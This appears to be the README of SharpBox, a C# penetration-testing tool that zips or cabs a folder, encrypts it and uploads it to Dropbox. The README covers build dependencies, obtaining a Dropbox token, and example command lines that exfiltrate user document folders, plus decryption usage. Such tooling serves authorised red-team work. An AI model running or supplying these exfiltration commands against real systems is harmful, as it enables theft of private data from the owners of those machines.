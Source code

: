 # SharpBox
SharpBox is a C# tool for compressing, encrypting, and exfiltrating data to Dropbox using the Dropbox API. 

## Compiling
Target Framework: NET3.5

The libraries added via NuGet for this project were:

- CommandLineParser.1.9.71

- Costura.Fody.1.6.2

- DotNetZip.1.11.0

- Fody.2.1.2

- MSFTCompressionCab.1.0.0


## Usage
Log into your Dropbox account and head over to the [Dropbox developer API explorer](https://dropbox.github.io/dropbox-api-v2-explorer/#auth_token/from_oauth1) page and get an oauth access token by clicking "Get Token".
These access tokens do not expire, but you can revoke them.  So I would recommend revoking tokens after being used on engagments.

Example:

```
SharpBox.exe -f "C:\Users\LegendaryJasonJF\Documents\management-docs" -t "DROPBOX-OATH-ACCESS-TOKEN-HERE"

SharpBox.exe -f "C:\Users\Meatball\Documents\rip-docs" -t "DROPBOX-OATH-ACCESS-TOKEN-HERE" -c "Cab"
```

SharpBox can Cab or Zip a folder of items.  Zip is the default compression method.  Cabbing tends to compress into smaller files than zip, but has a maximum limit of 2GB.  The compressed file is then encrypted with a randomly generated password and uploaded to Dropbox.  The password is output to the console.  Copy the password and use with the "password" argument when decrypting. 

```
SharpBox 1.0.0
Copyright c  2018 Pickles
Usage: SharpBox <options>

      -f, --path                   Required. path to the folder you wish to
                                   compress the contents of

      -o, --OutFile                Name of the compressed file

      -t, --dbxToken               Dropbox Access Token

      -h, --dbxPath                (Default: /test/data) path to dbx folder

      -c, --compression            (Default: Zip) this option lets you choose to
                                   zip or cab the folder

      -d, --decrypt                (Default: False) Choose this to decrypt a zip or
                                   cabbed file previously encrypted by this tool.
                                   Requires original password argument.

      -p, --decryption-password    Password to decrypt a zipped or cabbed file.

      --help                       Display this help screen.
  ```
  
  
  Once the compressed/encrypted file is downloaded from Dropbox, you can use this tool to decrypt it as well. 
  
  Example: 
  
  ```
  SharpBox.exe -f "C:\Users\evilDude\Desktop\data" -o "decrypted-data.zip" -p "RandomlyGeneratedPassword" -d
  ```
  
 ## Acknowledgements
  
 - [@CptJesus](https://twitter.com/CptJesus) for letting me borrow the password gen snippet from [SharpHound](https://github.com/BloodHoundAD/SharpHound).
